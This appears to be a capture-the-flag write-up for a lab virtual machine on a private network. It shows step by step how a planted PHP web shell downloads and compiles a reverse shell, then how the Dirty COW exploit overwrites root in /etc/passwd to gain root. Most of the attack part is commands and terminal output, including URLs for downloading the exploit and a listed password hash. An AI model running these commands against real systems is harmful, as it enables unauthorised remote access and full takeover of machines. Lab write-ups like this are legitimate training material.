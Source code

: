 # writeup 2

## Reverse shell

- Introduce our script in the server\
https://192.168.56.102/forum/templates_c/myfile.php?cmd=curl%20https://raw.githubusercontent.com/adbenoit-9/42_boot2root/main/scripts/reverse_shell.c%20--output%20reverseshell.c

- Compile it
```
$ curl https://192.168.56.102/forum/templates_c/myfile.php?cmd=gcc%20reverseshell.c%--output%20reverseshell.c
```
 - Launch netcat in the terminal
```
$ nc -vl 5432
```
- Execute the script\
https://192.168.56.102/forum/templates_c/myfile.php?cmd=./a.out

In terminal :
```
Listening on 0.0.0.0 5432
Connection received on e1r13p5.clusters.42paris.fr 55310
$ whoami
www-data
```

## Dirty cow

```
$ uname -r
3.2.0-91-generic-pae
```

valid exploit : `dirtycow` https://github.com/firefart/dirtycow/blob/master/dirty.c\
This program create a user with root privileges.

```
This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
```

```
$ cd /tmp
$ curl https://raw.githubusercontent.com/Gropopus/Boot2root/master/dirty.c --outpput dirty.c
$ gcc -pthread dirty.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
$ env
...
PWD=/tmp
...
$ export PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
Please enter the new password: p
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'p'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'p'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ cat /etc/passwd
...
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash
...
$ su root
su: must be run from a terminal
```
Connect with Laurie:\
*reminder password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4*

```
$ ssh laurie@192.168.56.102
$ su root
$ whoami
root
```
The end !
